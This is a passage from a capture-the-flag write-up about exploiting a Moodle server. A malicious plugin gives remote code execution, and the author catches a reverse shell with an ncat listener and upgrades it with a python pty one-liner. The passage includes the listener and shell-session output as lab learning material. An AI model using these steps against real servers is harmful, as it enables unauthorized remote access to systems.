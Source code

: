 After clicking on install and continue the plugin get's successfully installed. Browsing to it and testing it we have achieved RCE on the server.

[![rce_poc](/img/schooled/rce_poc.png)](/img/schooled/rce_poc.png)

We send the request to burp repeater set up a ncat listener and send ourselves a reverse shell.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

[![burp_revshell](/img/schooled/burp_revshell.png)](/img/schooled/burp_revshell.png)

We get a connection back instantly. Python is not in the path to upgrade our shell but we can identify its location with a quick find command.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.186.182.
Ncat: Connection from 10.129.186.182:59672.
bash: cannot set terminal process group (2088): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: python3: command not found
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ find / -name python3 2>/dev/null
/usr/local/bin/python3
/usr/local/share/bash-completion/completions/python3
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ /usr/local/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ export TERM=xterm
</data/moodle/blocks/rce/lang/en]$ export TERM=xterm
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ ^Z
[1]+  Stopped                 nc -lnvp 7575
```